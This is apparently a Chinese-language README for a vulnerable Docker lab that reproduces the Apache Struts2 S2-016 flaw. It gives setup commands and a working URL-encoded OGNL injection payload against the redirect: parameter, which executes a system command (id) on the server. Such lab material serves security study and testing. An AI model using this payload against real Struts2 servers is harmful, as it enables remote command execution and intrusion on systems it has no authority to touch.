

## Struts2 S2-016 漏洞环境

### 漏洞信息

 * [S2-016 公告](http://struts.apache.org/docs/s2-016.html)
 
参考 [http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html](http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html)

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:s_struts2_s2-016
 ```

2. 启动环境

 ```
$ docker run -d -p 80:8080 medicean/vulapps:s_struts2_s2-016
 ```
 > `-p 80:8080` 前面的 80 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

#### Exp

命令执行

```
/default.action?redirect:%24%7B%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%2C%23f%3D%23_memberAccess.getClass%28%29.getDeclaredField%28%27allowStaticMethodAccess%27%29%2C%23f.setAccessible%28true%29%2C%23f.set%28%23_memberAccess%2Ctrue%29%2C@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27id%27%29.getInputStream%28%29%29%7D
```



